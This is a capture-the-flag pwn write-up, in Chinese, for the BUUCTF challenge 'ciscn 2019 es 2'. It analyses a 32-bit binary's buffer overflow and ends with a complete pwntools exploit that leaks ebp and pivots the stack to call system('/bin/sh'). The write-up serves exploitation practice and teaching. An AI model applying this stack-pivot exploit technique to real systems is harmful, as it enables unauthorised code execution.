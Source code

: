 ```yaml
---
author: 
  name: Zephyr
title: ciscn 2019 es 2
date: 2022-3-24 7:17:03
permalink: /pages/2e1547494524d193
tags: 
  - buuctf
  - pwn
  - 栈迁移
---
```


# ciscn 2019 es 2

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/ciscn_2019_es_2/ciscn_2019_es_2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init();
  puts("Welcome, my friend. What's your name?");
  vul();
  return 0;
}
```

vul函数如下

```c
int vul()
{
  char s; // [esp+0h] [ebp-28h]

  memset(&s, 0, 0x20u);
  read(0, &s, 0x30u);
  printf("Hello, %s\n", &s);
  read(0, &s, 0x30u);
  return printf("Hello, %s\n", &s);
}
```

hack函数如下

```c
int hack()
{
  return system("echo flag");
}
```

## 思路分析

1. 目前信息：
   - vul函数有溢出漏洞，但仅能覆盖到ebp与return address
   - plt表内有system
   - 无后门函数
   - No PIE
2. 思路：
   - 溢出长度仅够修改ebp与return address，考虑栈迁移的手法，将栈迁移到别的区域，本题第一次printf可泄漏ebp，并且在s处可两次写入，选择迁移栈至s处

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/ciscn_2019_es_2/ciscn_2019_es_2'
# io = remote('node4.buuoj.cn', 27712)
io = process(pwnfile)
elf = ELF(pwnfile)
io.recv()
payload = flat(['a'*0x24, 'b'*4])
# 利用printf函数\x00结束的特性 将s到ebp之间填充字符以泄漏ebp
io.send(payload)
io.recvuntil('bbbb')
ebp = u32(io.recv(4))
success('rbp :'+hex(ebp))
offset = 0x38
write_stack_addr = ebp-offset
# 迁移至栈上s起始的区域,采用相对定位确定位置
system_addr = elf.plt['system']
leave_ret_addr = 0x080485FD
payload = flat([write_stack_addr+0x100, system_addr,0xdeadbeef, write_stack_addr+16, '/bin/sh\x00'])
# 字符串/bin/sh按照位置写入了write_stack_addr+16地址处
payload = payload.ljust(0x28, b'\x00')
payload += flat([write_stack_addr, leave_ret_addr])
io.send(payload)
io.interactive()
```